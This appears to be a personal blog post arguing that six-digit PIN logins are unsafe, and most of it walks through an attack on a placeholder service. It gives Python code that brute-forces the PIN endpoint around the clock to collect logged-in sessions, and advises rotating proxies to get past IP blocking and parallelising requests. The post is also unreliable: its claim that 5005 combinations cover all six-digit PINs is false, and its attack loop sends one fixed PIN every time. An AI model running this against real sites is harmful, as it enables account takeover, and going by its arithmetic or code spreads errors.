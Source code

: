 ```yaml
---
layout: post
title:  Why pin login is bad
description: Accessing information using just pin login is dangerous and should be avoided at all costs.
date:   2022-01-04 14:04:00 +0500
categories: pin-login password security hacking
---
```


Accessing information using just pin login is dangerous and should be avoided at all costs.

# What is pin login ?

A pin login is a terminology used by people to provision access to data or an interface using a pin when they don't remember the password or when someone want to get access to account quickly using n digit pin.

# Use case

Recently i discovered one of the services that i was using used a pin login that will allow its customers to login to their account using a 6 digit pin.

Lets call the service xyz.com and the pin login page was available at https://xyz.com/account/pin-login

By entering the generated pin login behind the scenes the interface will allow a user to login to their account.

# Attach strategy

Firstly i need to figure out the valid pin login that i can use to access a user account randomly and save the session for me to access anytime i want. Once i am able to login to the account i can re use the session from a successful attack to access it again when ever i want.

It's a 6 digit pin login hence the combinations for this could be calculated using below formula

![image](https://user-images.githubusercontent.com/21299746/148114971-aefb43f5-724a-4373-bc50-20fd8ad00965.png)

n = 10 since we clearly know that it's a numerical combinations so the allowed total objects were 0-9

r = 6 the length of the pin

With this i can generate 5005 pins that could be tried that have repetitions i.e, a digit could be repeated one or more times.

I can generate the combinations with repetitions using python math module as below

```python
>>> from itertools import combinations_with_replacement
>>> n = range(10)
>>> r = 6
>>> values = list(combinations_with_replacement(n, r))
>>> possible_pins = ["".join(map(lambda x: str(x), item)) for item in values]
>>> possible_pins

['000000', '000001', '000002', '000003', '000004', '000005', '000006', '000007', '000008', '000009', '000011', '000012', '000013', '000014', '000015', '000016', '000017', '000018', '000019', '000022', '000023', '000024', '000025', '000026', '000027', '000028', '000029', '000033', '000034',...'899999', '999999']

```

# Attack

Since attempting to use pins in a browser with user interface is a memory intense operation i want to use something light and fast because we don't know yet how long these pins will be active/expire.

I made a network trace when i hit submit button using a random 6 digit pin and saw that the UI was making a post request to an endpoint https://xyz.com/account/pin-check

I can now use this network call to make a request using python requests module as below

```python
>>> import requests
>>> session = requests.Session()
>>> response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>> response

<Response [401]>

```

Now i will go ahead and try to use all the pins that i have to see if any pin is active and i can use it. I modified the above code to match my needs

```python
>>> successful_attacks = {}
>>> for pin in possible_pins:
>>>     session = requests.Session()
>>>     response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>     if response.status_code == requests.codes.ok:
>>>         successful_attacks[pin] = session

```

The above code will find an active/valid pin during the time of request. I want to launch this attach throughout the day 24x7 so that if any one who generates the pin anytime i can get the session.

I will just put a while loop to do so.

```python
>>> def attack() -> dict:
>>>     successful_attacks = {}
>>>     for pin in possible_pins:
>>>         session = requests.Session()
>>>         response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})
>>>         if response.status_code == requests.codes.ok:
>>>             successful_attacks[pin] = session
>>>     return successful_attacks
>>> successful_sessions = []
>>> while True:
>>>     successful_sessions += attack().values()

```

Once the above code runs forever i will get all the successful sessions that i can use to get access to the accounts.

# Problems that we have to address along the way

### Too many requests from the same ip address can result in blocked network calls

To resolve this we can use proxy ip addresses to make anonymized network calls using requests

### Time consumed for each attack with series of requests one after another

Now this is a good problem that i want to solve. If each request will take n seconds on an average, then it will take n * 5005 seconds for each attack. There is a possibility that a pin was created and expired during this time. So we have to be fast. To resolve this we can use multi processing or distributed task processing to distribute 5005 tasks evenly so that the results were generated instantly without having to wait on others.

# Conclusion

Pin logins are dangerous. Avoid completely if possible otherwise at least make it very complex so that the combinations are at higher level. You can achieve that by allowing characters, digits, special characters as a part of your pin with a long lengths. Set the pin expiry as small as possible so that a pin could be alive for only a very small time.
